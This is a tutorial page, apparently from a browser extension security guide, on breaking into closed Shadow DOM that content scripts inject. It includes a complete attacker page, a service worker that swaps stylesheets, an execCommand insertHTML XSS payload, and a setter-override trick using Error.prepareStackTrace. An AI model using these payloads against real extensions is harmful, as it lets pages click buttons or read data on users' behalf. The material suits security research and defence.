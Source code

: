 ```yaml
---
sidebar_position: 3
---
```


# Open Closed Shadow DOM

[Shadow DOM](https://html.spec.whatwg.org/#parsing-main-inhead:attr-template-shadowrootmode:%7E:text=Let%20declarative%20shadow%20host%20element%20be%20adjusted%20current%20node) allows hidden DOM trees to be attached to elements in the regular DOM tree.
![Shadow DOM](/img/shadow/shadowdom.svg)

In practice, you can think of it as isolated HTML within another HTML file; however, what is important, unlike an iframe, is that it *has a shared JavaScript execution context* with the main HTML.

Sometimes extensions use this to display information, buttons, and so on directly to the user on the page.

It is important to understand that Shadow DOM is not a security mechanism, but unfortunately, it is sometimes used in this context...

## Remote stylesheets
Let's consider a collective example of code from a content script that I have encountered several times:
```javascript
const host = document.createElement('div');
host.id="host"
const shadowRoot = host.attachShadow({ mode: 'closed' });
        
shadowRoot.innerHTML = `<link rel="stylesheet" href="https://cdn.example.com/styles.css">
<p>This content is inside a closed shadow root!</p>
<button id='submit'>ACCESS</button>`;

shadowRoot.getElementById("submit").onclick = ()=>{
console.log("Clicked!")
// ...
}
document.body.appendChild(host);
```
It seems that there are no problems with this code at all:
- Closed Shadow DOM is used, so `host.innerHTML` and `host.shadowRoot` are inaccessible.
- Styles are loaded from a third-party site.

However, as I said, the Shadow DOM will have the same JavaScript context as the site on which it runs, so an exploit becomes possible.

First, let's learn how to override styles; here a *Service Worker* will help us, as this is our site, we can register a worker that simply intercepts the request and replaces it with our own.

Let's place the service worker registration on the attack page:
```html
    <script>
    if ('serviceWorker' in navigator) {
        navigator.serviceWorker.register('./slon.js')
            .then(registration => {
                console.log('Service worker registered:', registration);
            })
            .catch(error => {
                console.error('Service worker registration failed:', error);
            });
    }
    </script>
```
And accordingly, the worker itself:

```javascript
self.addEventListener('fetch', (event) => {
    if (event.request.destination === 'style') {
        event.respondWith(
            new Response(`p { color: red; }`, {
                headers: { 'Content-Type': 'text/css' }
            })
        );
    } else {
        event.respondWith(fetch(event.request));
    }
});
```
After its registration, you will see that the text inside the shadow root will turn red.
But what to do now? In fact, we can turn such a style injection into a full-fledged XSS!
```css
    p{
        -webkit-user-modify: read-write;
    }
```

Before continuing, let me explain what `-webkit-user-modify` is; it is a CSS property that allows us to turn any element into an equivalent of an input tag :)

Here’s how it will look in the browser:
![](/img/shadow/read-write.jpg)

What is this for? - To use [`document.execCommand`](https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand) - a legacy API that allows inserting and selecting text in writable fields.

After that, we only need to call the following code:
```javascript
find("This content is inside a closed")
document.execCommand("insertHTML", false, `<img src=1 onerror='this.getRootNode().getElementById("submit").click()'>`)
```
This code does the following:
- `find` locates and selects text from the shadow root.
- `document.execCommand` inserts HTML in place of the selection.
- The HTML contains an XSS payload; `this` refers to the current tag, and `getRootNode()` returns the Shadow Root.
- After that, we get an instance of the button and click it.


The finall attacker page:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Slonser</title>
</head>
<body>
    <script>
        if ('serviceWorker' in navigator) {
            navigator.serviceWorker.register('./slon.js')
                .then(registration => {
                    console.log('Service worker registered:', registration);
                    registration.active.onerror = (event) => {
                         console.log("An error occurred in the service worker!");
                    };
                })
                .catch(error => {
                    console.error('Service worker registration failed:', error);
                });
        }
        setInterval(()=>{
            find("This content is inside a closed")
            document.execCommand("insertHTML", false, `<img src=1 onerror='this.getRootNode().getElementById("submit").click()'>`)
        },1000);
        </script>
</body>
</html>
```
And service worker:
```javascript
self.addEventListener('fetch', (event) => {
    if (event.request.destination === 'style') {
        event.respondWith(
            new Response(`    p{
        -webkit-user-modify: read-write;
    }`, {
                headers: { 'Content-Type': 'text/css' }
            })
        );
    }else {
        event.respondWith(fetch(event.request));
    }
});
```

## Inline scripts
There are also cases where the Shadow DOM contains inline scripts, which makes it even easier to trigger clicks or steal text data.
Let's consider the following example:
```javascript
  const host = document.createElement('div');
  host.id="host"
  const shadowRoot = host.attachShadow({ mode: 'closed' });        
  shadowRoot.innerHTML = `
      ...
        <img src="https://example.com/avatar/${avatar_id}" onerror="this.src='https://example.com/avatar/blank.png'">
      ...
      <button id='submit'>ACCESS</button>`;
  shadowRoot.getElementById("submit").onclick = ()=>{
      console.log("Clicked!")
      // ...
  }
  document.body.appendChild(host);
```
As mentioned earlier, the JS context in such cases is unified, so let's just rewrite the Setter!:
```JavaScript
document.createElement('img').__proto__.__defineSetter__("src",()=>{alert()})
```
Unfortunately, this does not give us a reference to the Shadow DOM, but there is a trick that will allow us to obtain it:
```javascript
Error.prepareStackTrace = (a,b)=>{
    b[0].getThis().parentNode.getElementById("submit").click();
}
document.createElement('img').__proto__.__defineSetter__("src",()=>{throw new Error();})
```

I understand that this may cause confusion, so let me explain what is happening here:
- We rewrite the attribute setter so that it throws an error.
- In V8, when an error is created, `Error.prepareStackTrace` is called.
- In `Error.prepareStackTrace`, the entire `CallStack` is passed as the second parameter.
- `b[0].getThis()` will return the `this` from the original call that initiated the entire chain. In our case, this is a reference to the `<img>` tag.
:::tip Note

Accordingly, in the case of inline scripts, you can always obtain a reference to the shadow DOM if you find a way to trigger an error in the inline script.

:::
